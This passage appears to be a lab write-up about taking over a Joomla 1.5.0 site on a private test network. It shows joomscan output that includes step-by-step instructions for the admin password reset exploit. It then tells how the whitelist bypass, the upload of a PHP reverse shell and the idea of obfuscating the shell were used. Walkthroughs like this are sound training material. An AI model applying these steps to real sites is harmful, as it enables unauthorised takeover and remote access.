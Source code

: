 ```console

## Checking if the target has deployed an Anti-Scanner measure

[!] Scanning Passed ..... OK


## Detecting Joomla! based Firewall ...

[!] No known firewall detected!


## Fingerprinting in progress ...

~Generic version family ....... [1.5.x]

~1.5.x htaccess.txt revealed 1.5.0-stable(21-January-2008)
~1.5.x configuration.php-dist revealed 1.5.0-stable(21-January-2008)
~1.5.x adminlists.html revealed [1.5.0(stable) - 1.5.6]

* The Exact version found is 1.5.0-stable

## Fingerprinting done.


## 2 Components Found in front page  ##

 com_hdflvplayer         com_mailto




Vulnerabilities Discovered
==========================

---8<---
# 15
Info -> CoreComponent: Joomla Remote Admin Password Change Vulnerability
Versions Affected: 1.5.5 <=
Check: /components/com_user/controller.php
Argument "0-stable" isn't numeric in int at ./joomscan.pl line 2285, <JO> line 23.
Exploit: 1. Go to url : target.com/index.php?option=com_user&view=reset&layout=confirm  2. Write into field "token" char ' and Click OK.  3. Write new password for admin  4. Go to url : target.com/administrator/  5. Login admin with new password
Vulnerable? Yes
---8<--

There are 20 vulnerable points in 34 found entries!

~[*] Time Taken: 17 sec
~[*] Send bugs, suggestions, contributions to joomscan@yehg.net
```
There were several vulnerabilities that were found but the admin password change vulnerability was the one I used to take over the site and upload my web shell. I was able to reset the admin password by following the instructions provided. With the admin password reset I attempted to upload a web shell using the built in [media manager](http://192.168.56.x:13370/administrator/index.php?option=com_media) but I was being blocked by a file extension whitelist. The white list was easily by passed by going to the [configuration section](http://192.168.56.x:13370/administrator/index.php?option=com_config) of the admin panel and adding the php extension to the whitelist and/or also disabling the whitelist. I was then able to upload my [php reverse shell](pentestmonkey.net/tools/web-shells/php-reverse-shell) and get an interactive shell. I initially tried to upload a web shell but it was getting caught by some sort of security check. I was initially going to try and obfuscate the script using gzinflate, base64_decode etc but after finding that my php reverse shell worked I moved on.
```console
```